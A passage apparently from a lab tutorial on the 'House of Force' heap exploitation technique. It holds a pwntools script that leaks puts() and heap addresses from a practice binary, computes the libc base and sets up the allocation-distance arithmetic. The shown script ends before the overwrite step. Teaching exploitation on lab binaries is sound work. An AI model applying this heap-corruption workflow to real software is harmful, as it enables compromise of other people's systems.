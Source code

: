 We added `heap_address + 0x20` to account for the first heap chunk allocation, and we just need to land before the `target` so that our third allocation will overlap with the `target`.  


Use the following script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './house_of_force')
libc = exe.libc

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main 
continue
'''.format(**locals())

# Function to get leaked addresses
def leak_addresses():
    io.recvuntil(b'puts() @ ')
    puts_address = int(io.recvline().strip(), 16)

    io.recvuntil(b'heap @ ')
    heap_address = int(io.recvline().strip(), 16)
    
    return puts_address, heap_address

# malloc()
def malloc(size, data):
    io.sendline(b'1')
    sleep(0.3)
    io.sendline(size)
    sleep(0.3)
    io.sendline(data)

# target()
def target():
    io.recvuntil(b'> ')
    io.sendline(b'2')

# distance()
def distance(startAddr, endAddr):
    return (0xffffffffffffffff-startAddr) + endAddr


# -- Exploit goes here --

io = start()

puts_address, heap_address = leak_addresses()
log.info(f"Leaked puts address: {hex(puts_address)}")
log.info(f"Leaked heap address: {hex(heap_address)}")

libc.address = puts_address - libc.symbols['puts']
log.info(f"Leaked libc base {hex(libc.address)}")

```